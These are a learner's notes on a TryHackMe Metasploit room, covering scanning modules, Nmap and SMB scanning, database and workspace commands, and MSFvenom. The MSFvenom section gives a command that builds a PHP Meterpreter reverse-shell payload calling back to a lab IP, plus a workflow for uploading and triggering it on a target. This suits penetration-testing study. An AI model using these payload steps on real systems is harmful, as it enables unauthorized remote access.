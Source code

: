 # Metasploit: Exploitation (TryHackMe - Cyber Security 101)
**Platform:** TryHackMe (Cyber Security 101 path)  
**VM / Lab:** Browser modules  
**Time spent:** 20 min

## Objective
Using Metasploit for scanning, vulnerability assessment and exploitation.

## Core Concepts Covered
1. Network Scanning with Metasploit
    - **Port Scanning Modules**
        * Metasploit includes several auxiliary scanner modules for port scanning:
            * `auxiliary/scanner/portscan/ack`: TCP ACK Port Scanner
            * `auxiliary/scanner/portscan/syn`: TCP SYN Port Scanner
            * `auxiliary/scanner/portscan/tcp`: Full TCP Connect Scan
            * `auxiliary/scanner/portscan/xmas`: TCP Xmas Scan
            * `auxiliary/scanner/sap/sap_router_portscanner`: SAP-specific port scanner
        * Use `search portscan` in `msfconsole` to list available port scanning modules.
        * [Example of port scanning in metasploit](images/port_scanning.jpg)
    - **TCP Port Scanner Options**
        * When using `auxiliary/scanner/portscan/tcp`, you can configure:
            * `RHOSTS`: Target IP(s) or range
            * `PORTS`: Port range to scan (default: 1–10000)
            * `THREADS`: Number of concurrent threads
            * `TIMEOUT`: Socket connect timeout (in seconds)
        * Higher thread count is good for faster scans, but may cause network noise.
        * [Example of tcp port scanning module](images/tcp_scan.jpg)
2. Nmap Integration in Metasploit
    - You can run Nmap directly from `msfconsole`:
        * `nmap -p 80-443 <target_IP>`
    - Nmap is useful for initial reconnaissance before launching exploits.
    - Nmap can be used to detect open ports and services in the target machine.
    - [Example of nmap scanning](images/nmap_scanning.jpg)
3. SMB Scanning with Metasploit
    - Use module `scanner/smb/smb_version`
    - Used to identify SMB version and OS details of target systems.
    - [Sample output included here.](images/smb_scanning.jpg)
4. Metasploit Database
    - **Starting PostgreSQL & Initializing Metasploit DB**
        * Use command: `systemctl start postgresql` `msfdb init`
        * Initializes the Metasploit database and web service
        * If already initialized, reset with: `sudo -u postgres msfdb delete`
        * [Example of starting db](images/system_sql.jpg)
    - **Checking DB connections**
        * Use command: `db_status`
        * This is used to check database connection.
        * [Example of db_status](images/db_status.jpg)
    - **Workspace Management in Metasploit**
        * **Listing Workspace**
            * Use command `workspace`
            * Shows current and available workspaces
            * [Example of workspaces](images/db_workspace.jpg)
        * **Adding a Workspace**
            * Use command: `workspace -a <workspace_name>`
            * Adds a new workspace to the DB
            * [Example of adding workspace](images/workspace_add.jpg)
        * **Switching Workspaces**
            * Use command: `workspace <workspace_name>`
            * Switch to any created workspaces
        * **Workspace Help Menu**
            * Use command: `workspace -h`
            * Bring up the help menu
            * [Example of workspace help command](images/workspace_help.jpg)
    - **Database Backend Commands**
        * `db_nmap`: Run Nmap and save results to DB
        * `db_import`: Import scan results
        * `db_export`: Export DB contents
        * `hosts`: List discovered hosts
        * `services`: List discovered services
        * `vulns`: Show known vulnerabilities
        * `creds`: List credentials
        * `loot`: List captured files
        * `notes`: List analyst notes
5. MSFvenom
    - MSFvenom is a powerful tool for generating payloads in Metasploit.
    - Supports multiple platforms: Windows, Linux, Android, PHP, Python, ASP, iOS, etc.
    - Can output payloads in various formats and apply encoders.
    - **Listing Payloads**
        * Use command: `msfvenom -l payloads`
        * Shows all available payloads (562+)
        * Examples:
            * `cmd/unix/reverse_python`
            * `android/meterpreter/reverse_tcp`
            * `windows/shell/reverse_tcp`
            * `php/meterpreter/reverse_tcp`
            * `apple_ios/aarch64/meterpreter_reverse_http`
    - **Output Formats**
        * Use command: `msfvenom --list formats`
        * Comman formats are: `exe`, `elf`, `asp`, `raw`, `py`, `php`, `psh`, `bash`, `c`, `js`, `vb`, `war`, `dll`
    - **Encoders in MSFvenom**
        * Used to transform payloads, not guaranteed to bypass antivirus
        * Helpful for injection into shellcode or avoiding bad characters
        * Example command: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f raw -e php/base64`
    - **Using Handlers in Metasploit**
        * **Workflow for Reverse Shell**
            1. Generate payload with MSFvenom
            2. Start handler in Metasploit: `exploit/multi/handler`
            3. Trigger payload on target (eg, upload and execute `reverse_shell.php`).
            4. Receive shell in Metasploit

## Learning and Reflection
- Learned about networking scan with metasploit.
- Learned how to use nmap with msfconsole.
- Learned about creating databases in metasploit.
- Learned about MSFVenom and using it to create payloads.














